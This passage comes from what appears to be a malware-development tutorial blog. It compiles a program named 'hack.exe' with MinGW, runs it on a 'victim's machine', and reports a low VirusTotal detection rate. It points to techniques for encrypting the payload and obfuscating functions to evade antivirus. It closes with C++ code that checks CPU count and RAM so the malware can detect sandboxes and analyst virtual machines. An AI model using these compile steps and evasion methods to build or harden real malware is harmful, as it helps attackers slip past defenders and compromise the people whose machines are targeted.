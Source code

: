 Let's go to compile:   
```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av 2](/assets/images/34/2021-12-26_16-41.png){:class="img-responsive"}    

And run it in our victim's machine (Windows 10 x64):   

![av 2.1](/assets/images/34/2021-12-26_16-46.png){:class="img-responsive"}   

As you can see everything is worked perfectly :)    

And if we just upload this malware to VirusTotal:   

![av 3](/assets/images/34/2021-12-25_14-35.png){:class="img-responsive"}    

[https://www.virustotal.com/gui/file/4ff68b6ca99638342b9b316439594c21520e66feca36c2447e3cc75ad3d70f46/detection](https://www.virustotal.com/gui/file/4ff68b6ca99638342b9b316439594c21520e66feca36c2447e3cc75ad3d70f46/detection)    

**So, 6 of 67 AV engines detect our file as malicious.**

For better result, we can add payload [encryption](/tutorial/2021/09/04/simple-malware-av-evasion.html) with key or [obfuscate functions](/tutorial/2021/09/06/simple-malware-av-evasion-2.html), or combine both of this techniques.

And what's next? Malwares often use various methods to fingerprint the environment they're being executed in and perform different actions based on the situation.   

For example, we can detect virtualized environment. Sandboxes and analyst's virtual machines usually can’t 100% accurately emulate actual execution environment. Nowadays typical user machine has a processor with at least 2 cores and has a minimum 2GB RAM. So our malware can verify if the environment is a subject to these constraints:   

```cpp
BOOL checkResources() {
  SYSTEM_INFO s;
  MEMORYSTATUSEX ms;
  DWORD procNum;
  DWORD ram;

  // check number of processors
  GetSystemInfo(&s);
  procNum = s.dwNumberOfProcessors;
  if (procNum < 2) return false;

  // check RAM
  ms.dwLength = sizeof(ms);
  GlobalMemoryStatusEx(&ms);
  ram = ms.ullTotalPhys / 1024 / 1024 / 1024;
  if (ram < 2) return false;

  return true;
}
```
